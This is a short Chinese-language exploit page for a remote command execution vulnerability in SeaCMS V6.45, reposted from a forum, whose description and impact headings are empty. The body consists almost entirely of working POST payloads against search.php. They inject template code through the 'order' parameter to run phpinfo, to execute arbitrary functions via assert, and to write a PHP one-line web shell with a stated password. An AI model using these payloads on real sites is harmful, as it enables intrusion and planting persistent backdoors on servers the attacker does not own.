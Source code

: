 # Seacms V6.45

> 原文：[https://www.zhihuifly.com/t/topic/3114](https://www.zhihuifly.com/t/topic/3114)

# Seacms V6.45 远程命令执行漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

`http://0-sec.org/search.php?searchtype=5`

POST

```
searchtype=5&order=}{end if} {if:1)phpinfo();if(1}{end if} 
```

```
searchtype=5&searchword=d&order=}{end if}{if:1)print_r($_POST[func]($_POST[cmd]));//}{end if}&func=assert&cmd=phpinfo(); 
```

> 一句话payload，文件test.php 密码pass:

path:

`http://0-sec.org/search.php`

```
}{end if}{if:1)print_r($_POST[func]($_POST[cmd]));//}{end if}&func=assert&cmd=fwrite(fopen("test.php","w"),'<?php eval($_POST["pass"]);?>') 
```